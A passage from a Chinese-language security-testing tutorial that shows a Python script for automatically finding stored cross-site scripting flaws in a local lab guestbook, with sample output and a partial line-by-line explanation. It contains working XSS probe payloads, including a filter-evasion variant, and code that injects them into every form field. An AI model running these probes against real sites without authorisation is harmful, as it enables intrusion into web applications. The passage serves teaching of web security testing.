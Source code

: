 ```py
import requests
import sys
from bs4 import BeautifulSoup, SoupStrainer
url = "http://127.0.0.1/xss/medium/guestbook2.php"
url2 = "http://127.0.0.1/xss/medium/addguestbook2.php"
url3 = "http://127.0.0.1/xss/medium/viewguestbook2.php"
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
initial = requests.get(url)
for payload in payloads:
  d = {}
  for field in BeautifulSoup(initial.text, parse_only=SoupStrainer('input')):
          if field.has_attr('name'):
            if field['name'].lower() == "submit":
              d[field['name']] = "submit"
            else:
              d[field['name']] = payload
  req = requests.post(url2, data=d)
  checkresult = requests.get(url3)

  if payload in checkresult.text:
    print "Full string returned"
    print "Attack string: "+ payload
```

以下是将此脚本与两个成功字符串一起使用时生成的输出示例：

```py
Full string returned
Attack string: <script>alert(1);</script>
Full string returned
Attack string: <BODY ONLOAD=alert(1)>
```

## 它是如何工作的…

我们一次又一次地导入我们的库，并建立我们要攻击的 URL。这里，`url`是带有要攻击的参数的页面，`url2`是要提交内容的页面，`url3`是检测攻击是否成功的最终读取页面。其中一些 URL 可能是共享的。之所以以这种形式设置它们，是因为很难为存储的跨站点脚本创建点击式脚本：

```py
url = "http://127.0.0.1/xss/medium/guestbook2.php"
url2 = "http://127.0.0.1/xss/medium/addguestbook2.php"
url3 = "http://127.0.0.1/xss/medium/viewguestbook2.php"
```

然后我们建立有效载荷列表。与基于 URL 的 XSS 脚本一样，有效负载和检查值相同：

```py
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
```

然后，我们创建一个空字典，将有效负载与每个标识的输入框配对：

```py
d = {}
```
